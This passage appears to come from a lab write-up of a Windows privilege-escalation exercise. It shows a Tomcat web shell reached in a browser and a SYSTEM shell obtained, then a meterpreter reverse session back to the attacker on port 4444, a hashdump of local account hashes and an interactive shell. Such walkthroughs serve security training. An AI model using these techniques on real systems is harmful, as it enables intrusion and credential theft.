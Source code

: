 Now in a browser, hit the tomcat server and file by navigating to [http://192.168.0.102:8080/shell/](#)



### SYSTEM (root) privileges acheived

Boom! 14:37 on 2018-07-27 root shell timestamp.


### Transition to root meterpreter session and grab credentials


In the root netcat session, browse to `C:\Test` where the native Windows meterpreter payload binary `rshell.exe` was uploaded. Run that under the context of the SYSTEM account.

    [*] Sending stage (179267 bytes) to 192.168.0.102
    [*] Meterpreter session 22 opened (192.168.0.99:4444 -> 192.168.0.102:49167) at 2018-07-27 00:05:01 -0400
    
    
    msf exploit(handler) > sessions 23
    [*] Starting interaction with 23...
    
    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
    
    meterpreter > hashdump 
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    IEUser:1000:aad3b435b51404eeaad3b435b51404ee:888e46c1cae5cd127519b7b914f018ee:::
    
    meterpreter > shell
    Process 2540 created.
    Channel 1 created.
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
    
    C:\Test>time
    time
    The current time is: 21:06:21.90
    Enter the new time: 
    
    
    C:\Test>exit
    exit
    meterpreter > 

